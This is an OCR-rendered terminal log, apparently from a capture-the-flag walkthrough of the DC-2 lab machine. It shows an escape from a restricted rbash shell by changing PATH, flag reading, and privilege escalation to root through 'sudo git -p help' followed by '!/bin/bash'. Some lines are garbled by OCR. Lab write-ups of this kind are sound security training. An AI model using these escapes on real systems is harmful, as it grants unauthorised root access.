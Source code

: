 tom\@DC-2:\~\$ cd -rbash: cd: restricted

tom\@DC-2:\~\$ pwd /home/tom tom\@DC-2:\~\$ vi

tom\@DC-2:\~\$ ls flag3.txt usr

tom\@DC-2:\~\$ cd usr

tom\@DC-2:\~/usr\$ ls bin

tom\@DC-2:\~/usr\$ cd bi bash: cd: bi: No such file or directory

tom\@DC-2:\~/usr\$ cd bin

tom\@DC-2:\~/usr/bin\$ ls less ls scp vi

tom\@DC-2:\~/usr/bin\$ cd ..

tom\@DC-2:\~/usr\$ cd ..

tom\@DC-2:\~\$ ls flag3.txt usr

tom\@DC-2:\~\$ cat flag3.txt bash: cat: command not found

tom\@DC-2:\~\$ export PATH=$$PATH:/bin:/usr/bintom@DC - 2:\$$ ls flag3.txt usr

tom\@DC-2:\~\$ cat flag3.txt

flag3 
======

Poor old Tom is always running after Jerry. Perhaps he should su for all the
stress he causes.

flag4
=====

jerry\@DC-2:\~\$ cat flag4.txt Good to see that you've made it this far - but
you're not home yet.

You still need to get the final flag (the only flag that really counts!!!).

No hints here - you're on your own now. :-)

Go on - git outta here!!!!

jerry\@DC-2:/usr/bin\$ cd

jerry\@DC-2:\~\$ sudo git -p help

flag5
=====

!/bin/bash

root\@DC-2:/home/jerry

\# whoami root

root\@DC-2:/home/jerry\# ls flag4.txt

root\@DC-2:/home/jerry\# pwd /home/jerry

root\@DC-2:/home/jerry\# cd ..
